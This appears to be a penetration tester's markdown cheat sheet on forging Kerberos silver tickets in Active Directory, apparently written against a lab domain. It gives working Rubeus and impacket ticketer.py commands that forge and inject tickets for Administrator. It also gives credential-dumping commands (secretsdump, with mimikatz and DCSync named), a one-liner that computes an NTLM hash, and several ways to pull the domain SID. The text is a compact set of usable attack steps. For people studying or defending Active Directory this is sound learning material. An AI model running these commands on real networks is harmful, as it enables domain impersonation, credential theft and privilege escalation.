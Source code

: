 we can forge a service ticket if we have:
- plain-text password or NTLM hash of a service account (secretdump -mimkatz LSASS dump - DCSync)
- Service Principal Name (SPN) of that service
- FQDN
- Domain SID (optional for some tools)

Tools:
1. rubeus
```powershell
rubeus.exe silver /service:MSSQLSvc/lol.local:1433 /rc4:<NTLM> /sid:<DOMAIN_SID> /user:Administrator /domain:<DOMAIN> /ptt
```

2. tickter.py
```shell
1-
python3 ticketer.py <TARGET (domain name)> -nthash <NTHASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -dc-ip 10.10.10.1 -spn cifs/test.local -user Administrator

2-
export KRB5CCNAME=./Administrator.ccache

#then confirm that it's there
klist

3-
impacket-mssqlclient -windows-auth -k north.sevenkingdoms.local/jon.snow@castelblack.north.sevenkingdoms.local -no-pass

```



> [!NOTE] NOTE
> this whole tickets forging thing will be useless IF the service did a PAC validation which is rare. Any service that runs inside services.msc will not use PAC validation. 

---

### getting `NTLM` hash or the plain password:

 1. using impacket-secretdump (has to be domain admin account) 
 ```shell
 impacket-secretsdump 'north.sevenkingdoms.local/vagrant:vagrant@192.168.56.11'
```
 
 2.  mimkatz LSASS dump
 3. DCSync attack 
 4. Kerberoast > Crack > NTLM
 ```shell
 # this will get us the NTLM hash
 echo -n 'Password123!' | iconv -f utf-8 -t utf-16le | openssl dgst -md4 
```

---
### Getting Domain SID:
its basically the first part of any SID object.
```powershell
nxc:
nxc ldap lol.local -u sqlsvc -p test -k --get-sid

ldapsearch:
ldapsearch -x -H ldap://<DC_IP> -b "" -s base objectSid

impacket-GetADUsers:
impacket-GetADUsers domain/user:password@<DC_IP> -all

rpcclient:
rpcclient $> lookupdomain north.sevenkingdoms.local
```